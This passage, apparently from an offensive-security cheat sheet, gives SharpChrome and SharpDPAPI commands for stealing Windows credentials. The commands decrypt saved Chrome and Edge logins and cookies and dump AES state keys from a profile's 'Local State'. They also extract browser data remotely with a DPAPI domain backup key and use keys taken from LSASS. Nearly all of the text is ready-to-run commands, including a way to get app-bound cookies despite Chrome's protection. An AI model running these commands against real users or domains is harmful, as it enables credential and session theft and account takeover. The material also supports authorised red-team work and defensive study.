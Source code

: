 Note that [**SharpChrome**](https://github.com/GhostPack/SharpDPAPI) (from the same repo) can be used to decrypt using DPAPI sensitive data like cookies.

#### Chromium/Edge/Electron quick recipes (SharpChrome)

- Current user, interactive decryption of saved logins/cookies (works even with Chrome 127+ app-bound cookies because the extra key is resolved from the user’s Credential Manager when running in user context):

```cmd
SharpChrome logins  /browser:edge  /unprotect
SharpChrome cookies /browser:chrome /format:csv /unprotect
```

- Offline analysis when you only have files. First extract the AES state key from the profile’s "Local State" and then use it to decrypt the cookie DB:

```cmd
# Dump the AES state key from Local State (DPAPI will be used if running as the user)
SharpChrome statekeys /target:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State" /unprotect
# Copy the hex state key value (e.g., "48F5...AB") and pass it to cookies
SharpChrome cookies /target:"C:\Users\bob\AppData\Local\Google\Chrome\User Data\Default\Cookies" /statekey:48F5...AB /format:json
```

- Domain-wide/remote triage when you have the DPAPI domain backup key (PVK) and admin on the target host:

```cmd
SharpChrome cookies /server:HOST01 /browser:edge /pvk:BASE64
SharpChrome logins  /server:HOST01 /browser:chrome /pvk:key.pvk
```

- If you have a user’s DPAPI prekey/credkey (from LSASS), you can skip password cracking and directly decrypt profile data:

```cmd
# For SharpChrome use /prekey; for SharpDPAPI use /credkey
SharpChrome cookies /browser:edge /prekey:SHA1_HEX
SharpDPAPI.exe credentials /credkey:SHA1_HEX
```

Notes
- Newer Chrome/Edge builds may store certain cookies using "App-Bound" encryption. Offline decryption of those specific cookies is not possible without the additional app-bound key; run SharpChrome under the target user context to retrieve it automatically. See the Chrome security blog post referenced below.

### Access keys and data

- **Use SharpDPAPI** to get credentials from DPAPI encrypted files from the current session:

```bash
# Decrypt user data
## Note that 'triage' is like running credentials, vaults, rdg and certificates
SharpDPAPI.exe [credentials|vaults|rdg|keepass|certificates|triage] /unprotect

# Decrypt machine data
SharpDPAPI.exe machinetriage 
```
